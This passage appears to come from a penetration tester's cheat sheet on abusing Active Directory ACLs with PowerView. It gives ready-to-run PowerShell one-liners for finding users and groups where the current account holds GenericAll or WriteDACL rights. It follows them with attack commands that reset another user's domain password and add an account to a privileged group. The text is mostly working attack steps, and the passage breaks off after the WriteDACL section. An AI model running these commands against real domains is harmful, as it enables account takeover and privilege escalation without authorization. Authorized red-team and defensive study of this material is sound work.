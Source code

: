```
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

{% hint style="info" %}
The `-ResolveGUIDs` switch shows `ObjectType` and `InheritedObjectType` properties in a human readable form (not in GUIDs).
{% endhint %}

PowerView 3.0 does not return `IdentityReference` property, which makes it less handy for this task (however, you may filter the output by the attacker's SID). To automatically convert SIDs to names we can use the following loop:

```
PV3 > Get-DomainObjectAcl -Identity snovvcrash -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_}
```




## Abuse GenericAll

Find domain users that current user has `GenericAll` access right to:

```
PV3 > Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} ? {$_.ActiveDirectoryRights -like "*GenericAll*"}
```

The attacker can change password of discovered users:

```
Cmd > net user snovvcrash Passw0rd! /domain
```

Find domain groups that current user has `GenericAll` access right to:

```
PV3 > Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} ? {$_.ActiveDirectoryRights -like "*GenericAll*"}
```

The attacker can add users to discovered groups:

```
Cmd > net group "IT Desk" snovvcrash /add /domain
```




## Abuse WriteDACL

Find domain groups that current user has `WriteDACL` access right to:

```
PV3 > Get-DomainUser | Get-ObjectAcl -ResolveGUIDs | % {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | % {if ($_.Identity -eq $("$env:UserDomain\$env:UserName")) {$_}} | ? {$_.ActiveDirectoryRights -like "*WriteDacl*"}
```
